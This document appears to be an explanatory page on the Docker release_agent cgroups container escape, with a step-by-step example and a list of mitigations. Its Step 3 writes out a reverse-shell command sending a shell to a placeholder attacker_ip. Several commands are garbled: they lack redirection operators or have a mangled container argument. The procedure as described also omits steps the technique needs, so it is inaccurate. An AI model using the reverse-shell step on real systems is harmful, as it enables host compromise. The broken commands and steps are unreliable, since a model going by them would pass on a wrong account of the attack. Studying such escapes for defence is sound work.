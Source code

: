 # Docker release_agent cgroups escape


# 👉 Overview

---

### 👀 What ?

Docker release_agent cgroups escape is a security exploit that allows an attacker to gain unauthorized access to the host system from a Docker container. Control Groups (cgroups) is a Linux kernel feature to limit, police and account the resource usage for certain system processes, and release_agent is a property of cgroups that specifies a script to execute when the cgroup becomes empty.


### 🧐 Why ?

Understanding Docker release_agent cgroups escape is important because it poses a significant security risk. If an attacker can escape from a Docker container to the host system, they can potentially gain full control over the system, access sensitive information, and carry out further attacks. As Docker is widely used in the IT industry, this issue is of particular concern to system administrators and cybersecurity professionals.


### ⛏️ How ?

To exploit this vulnerability, an attacker needs to have access to a Docker container and the ability to run commands within it. The attacker can then create a new cgroup, set the release_agent property to the command they want to execute on the host system, and move the Docker process to the new cgroup. When the Docker process exits and the cgroup becomes empty, the release_agent script is executed, resulting in the command being run on the host system. To protect against this exploit, system administrators should restrict container access, regularly update and patch systems, and monitor for suspicious activity.


### ⏳ When ?

The Docker release_agent cgroups escape exploit has been known since at least 2016, when it was first reported. Despite patches and updates, variations of this exploit may still be possible on systems that are not properly secured or updated.


# ⚙️ Technical Explanations

---

### Overview

The Docker release_agent cgroups escape exploit is a critical security vulnerability that leverages the Linux kernel's cgroups (control groups) feature in combination with Docker, a popular containerization platform. This exploit allows a malicious actor to escape from a Docker container and execute arbitrary commands on the host system.

### How the Exploit Works

1. **Understanding cgroups**:
    - cgroups is a Linux kernel feature that limits, accounts for, and isolates the resource usage (CPU, memory, disk I/O, etc.) of a collection of processes.
    - One of the properties of cgroups is `release_agent`, which specifies a script to be executed when the cgroup becomes empty.
2. **Docker and cgroups**:
    - Docker containers use cgroups to manage and isolate the resources used by the container.
    - If an attacker gains access to a Docker container, they can potentially manipulate cgroups to escape the container's isolation.
3. **Exploiting the release_agent**:
    - By setting the `release_agent` property of a cgroup to a malicious command, an attacker can cause this command to be executed on the host system when the cgroup becomes empty.

### Step-by-Step Example of the Exploit

### Step 1: Gain Access to a Docker Container

The attacker first gains access to a Docker container. This could be done through exploiting a weak password, a software vulnerability, or another method. For instance, using Docker CLI:

```bash
docker exec -it <container_idbash

```

### Step 2: Create a New cgroup

Inside the container, the attacker creates a new cgroup. This can be done using the `mkdir` command:

```bash
mkdir /sys/fs/cgroup/cpu/demo

```

### Step 3: Set the release_agent Property

The attacker sets the `release_agent` property of the new cgroup to a malicious command that they wish to execute on the host system. For example, to create a backdoor, the attacker might set it to open a reverse shell:

```bash
echo "/bin/sh -c 'nc -e /bin/sh attacker_ip attacker_port'" /sys/fs/cgroup/cpu/demo/release_agent

```

### Step 4: Move the Docker Process to the New cgroup

The attacker then moves the Docker process to the new cgroup. They can do this by identifying the process ID (PID) of the Docker process and writing it to the `cgroup.procs` file of the new cgroup:

```bash
echo $$ /sys/fs/cgroup/cpu/demo/cgroup.procs

```

### Step 5: Trigger the release_agent

When the Docker process exits and the cgroup becomes empty, the `release_agent` script is executed on the host system, not inside the container. As a result, the malicious command specified in step 3 is run on the host system, potentially leading to a full system compromise.

### Mitigation Strategies

1. **Limit Access to Docker Containers**:
    - Restrict access to Docker containers to only trusted users.
    - Use strong passwords and authentication mechanisms.
2. **Regular Updates and Patching**:
    - Keep the Docker daemon, host operating system, and all software dependencies up-to-date with the latest security patches.
3. **Monitoring and Auditing**:
    - Monitor system logs and audit Docker containers for suspicious activity.
    - Use security tools to detect anomalies and potential breaches.
4. **Disable Unnecessary Features**:
    - Disable or restrict the use of features that are not needed, such as the ability to create and manipulate cgroups.
5. **Implement Security Controls**:
    - Use AppArmor, SELinux, or other mandatory access control systems to enforce security policies on Docker containers.
    - Limit the capabilities of containers to the minimum required for their operation.

### Conclusion

The Docker release_agent cgroups escape exploit highlights the importance of securing containerized environments. By understanding how cgroups can be manipulated and taking appropriate mitigation steps, administrators can protect their systems from such exploits. Regular monitoring, updating, and the implementation of robust security controls are essential to maintain a secure Docker environment.
